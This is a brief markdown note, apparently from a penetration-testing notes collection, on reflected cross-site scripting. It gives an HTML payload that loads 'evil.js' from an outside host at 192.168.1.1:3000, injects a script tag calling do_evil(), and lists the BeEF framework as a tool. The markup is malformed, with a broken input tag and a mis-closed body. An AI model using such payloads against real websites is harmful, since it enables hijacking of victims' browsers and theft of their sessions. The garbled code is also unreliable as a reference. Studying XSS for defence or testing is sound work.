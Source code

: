 # Reflected XSS attacks
Requires a victim to click on a link to execute. Javascript will be used to redirect the user and execute a payload. 

## HTML Page
A script will need to be placed on the target page.
```html
<html>
    <body>
        <script src="https://192.168.1.1:3000/evil.js"></script>
        <input type="hidden" value=""><script>do_evil()</script> />
        <script src="https://192.168.1.1:3000/evil.js"></script>
    <body>
</html>
```

# Reflected XSS Tools
- BeEf Framework
